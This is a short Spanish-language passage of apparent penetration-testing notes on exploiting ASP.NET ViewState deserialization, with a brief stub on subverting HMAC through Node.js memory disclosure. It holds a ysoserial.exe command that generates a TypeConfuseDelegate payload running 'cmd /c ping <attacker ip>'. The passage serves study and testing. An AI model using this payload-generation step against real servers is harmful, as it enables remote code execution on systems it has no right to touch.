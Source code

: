 #### Explotación <a href="#exploitation" id="exploitation"></a>

Necesitamos el **YsoSerial.net** e implementar la lógica relacionada con MAC de la información anterior

```
ysoserial.exe -o base64 -g TypeConfuDelegate -f ObjectStateformatter -c "cmd /c ping <attacker ip>"
```

![[Pasted image 20240311160047.png]]
> En este caso, no atacamos a las criptomonedas per se. En su lugar, aprovechamos la función SSI del servidor subyacente para filtrar la clave criptográfica

> La implementación de criptomonedas sólidas es importante, pero la protección de la clave criptográfica es igualmente importante.

### Subversión del escenario HMAC <a href="#subverting-hmac-scenario" id="subverting-hmac-scenario"></a>

Ejemplo de HMAC se puede subvertir a través de la divulgación de memoria remota en Node.js

Se proporcionará el código fuente de la aplicación vuln, para que podamos probar el ataque localmente

```
- https://en.wikipedia.org/wiki/HMAC
```

\
